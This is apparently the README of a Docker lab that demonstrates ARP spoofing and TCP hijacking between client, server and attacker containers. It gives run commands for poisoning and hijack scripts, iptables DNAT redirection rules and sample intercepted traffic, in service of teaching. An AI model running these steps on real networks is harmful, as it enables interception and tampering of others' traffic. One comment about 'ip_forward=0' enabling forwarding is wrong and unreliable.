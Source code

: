 # ARP spoofing & TCP hijaking

## Network structure

```
            MIDDLE------------\
        subnet2: 198.7.0.3     \
        MAC: 02:42:c6:0a:00:02  \
               forwarding        \ 
              /                   \
             /                     \
Poison ARP 198.7.0.1 is-at         Poison ARP 198.7.0.2 is-at 
           02:42:c6:0a:00:02         |         02:42:c6:0a:00:02
           /                         |
          /                          |
         /                           |
        /                            |
    SERVER <---------------------> ROUTER <---------------------> CLIENT
net2: 198.7.0.2                      |                           net1: 172.7.0.2
MAC: 02:42:c6:0a:00:03               |                            MAC eth0: 02:42:ac:0a:00:02
                           subnet1:  172.7.0.1
                           MAC eth0: 02:42:ac:0a:00:01
                           subnet2:  198.7.0.1
                           MAC eth1: 02:42:c6:0a:00:01
                           subnet1 <------> subnet2
                                 forwarding

```

## Installation

### Requirements

- [docker](https://docs.docker.com/engine/install/)
- [docker-compose](https://docs.docker.com/compose/install/standalone/)


Getting the repository:
```bash
git clone https://github.com/VladSteopoaie/ARPspoofing-TCPhijaking.git
cd ARPspoofing-TCPhijaking
```

Building the containers (docker might require admin permissions):
```bash
docker-compose up -d
```

Now you can connect to each container with the following command:
```bash
docker exec -it <container-id> /bin/bash
# to get the container id you can use `docker ps`
```

## Usage

### Scenario I (client-server communication)

Connect to the `client` container and follow the commands:

```bash
cd scripts
python3 tcp_client.py
```

You should see the `client` hanging with the following message:

```
[~] Connecting to ('198.7.0.2', 10000)...
```

Connect to the `server` container and follow the commands:

```bash
cd scripts
python3 tcp_server.py
```

You should see the `server`'s message:

```
[~] Server listening on 198.7.0.2:10000
[~] Waiting for connections...
```

After a short while the `server` and `client` should communicate and you should see something like this:

```
####### SERVER #######
[~] Handshake with ('198.7.0.1', 51902)
[~] Message received: "b'gAFMG`'"
[~] Message sent: "b'gAFMG`-server'"
[~] Message received: "b'`{qEUHmR'"
[~] Message sent: "b'`{qEUHmR-server'"
[~] Message received: "b'RWfBnD'"
[~] Message sent: "b'RWfBnD-server'"
~~~SNIP~~~

####### CLIENT #######
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "gAFMG`"
[~] Message received: "b'gAFMG`-server'"
[~] Message sent: "`{qEUHmR"
[~] Message received: "b'`{qEUHmR-server'"
[~] Message sent: "RWfBnD"
[~] Message received: "b'RWfBnD-server'"
~~~SNIP~~~
```

Note: The `client` is generating random strings as messages and the `server` is appending '-server' to the data and sends it back.

### Scenario II (ARP spoofing)

Now that we have the `client` and `server` communicating let's add the `middle`.
Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=0 # enables packet forwarding
python3 arp.py 198.7.0.1 198.7.0.2 # Usage: python3 arp.py router_ip victim_ip
```

You should see the following:

```
[*] Default Gateway MAC: 02:42:c6:07:00:01
[*] Victim MAC: 02:42:c6:07:00:02
[~] Started ARP poisoning!
[~] Starting network caputre.
```

Start the `client` and `server` as before and wait until some packets are sent.<br>
Stop all the scripts with CTRL^C repeatedly.<br>
On the `middle` container you should have a file that looks like this `198.7.0.2_caputre.pcap`, check if it has some contents. If the file is not empty then the attack was successful and the middle intercepted the packets. You can use `tcpdump -r <file_name>.pcap` to analyze the packets from the terminal or extract the file on your machine with `docker cp` and analyze it in Wireshark.<br> <br>

Here is the file analyzed with Wireshark:
![Wireshark image](images/wireshark.png)

### Scenario III (TCP hijacking)

The process here is similar to the one in Scenario II. Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -t nat -A PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
python3 hijack.py 198.7.0.1 198.7.0.2 # Usage: python3 hijack.py router_ip victim_ip
```
You should see the same text as for ARP spoofing script.

Now start the `server` and `client` and wait until some packets are sent.
You should see an output similar to this for each container:

```
####### MIDDLE #######
[~] Handshake with ('198.7.0.1', 47994)
[~] Initiating connection with the server...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message received: "b'_SPsNPDU'"
[~] Sending "_SPsNPDU-middle" to server...
[~] Received message: "b'_SPsNPDU-middle-server'"
[~] Sending "_SPsNPDU-middle-server-middle" to the client...
[~] Message received: "b'is`Nt'"
[~] Sending "is`Nt-middle" to server...
[~] Received message: "b'is`Nt-middle-server'"
[~] Sending "is`Nt-middle-server-middle" to the client...
[~] Message received: "b'[vVMY`'"
[~] Sending "[vVMY`-middle" to server...
[~] Received message: "b'[vVMY`-middle-server'"
[~] Sending "[vVMY`-middle-server-middle" to the client...
[~] Message received: "b''"
[!] Connection closed! (fake server)
[!] Connection closed! (fake client)
~~~SNIP~~~

####### SERVER #######
[~] Waiting for connections...
[~] Handshake with ('198.7.0.3', 57532)
[~] Message received: "b'_SPsNPDU-middle'"
[~] Message sent: "b'_SPsNPDU-middle-server'"
[~] Message received: "b'is`Nt-middle'"
[~] Message sent: "b'is`Nt-middle-server'"
[~] Message received: "b'[vVMY`-middle'"
[~] Message sent: "b'[vVMY`-middle-server'"
[X] Connection closed
~~~SNIP~~~

####### CLIENT #######
[~] Connecting to ('198.7.0.2', 10000)...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "_SPsNPDU"
[~] Message received: "b'_SPsNPDU-middle-server-middle'"
[~] Message sent: "is`Nt"
[~] Message received: "b'is`Nt-middle-server-middle'"
[~] Message sent: "[vVMY`"
[~] Message received: "b'[vVMY`-middle-server-middle'"
~~~SNIP~~~
```

So the `middle` intercepted the packets between the `server` and `client`. It hijaked the connection and appended a message ('-middle') for each packet it captured. 

Note: if the communication is not working and the `client` is hanging, try restarting the hijack.py script.

After closing the scripts don't forget to restore the containers with this commands:

```bash
####### CLIENT & SERVER #######
ip -s -s neigh flush all

####### MIDDLE #######
iptables -t nat -D POSTROUTING -j MASQUERADE
iptables -t nat -D PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
```
